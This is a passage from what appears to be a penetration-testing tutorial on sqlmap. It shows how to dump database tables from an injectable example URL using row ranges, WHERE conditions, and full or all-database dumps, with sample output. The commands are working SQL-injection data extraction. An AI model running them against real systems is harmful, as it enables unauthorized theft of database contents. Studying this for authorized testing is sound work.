 To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

***

## Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

***

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.
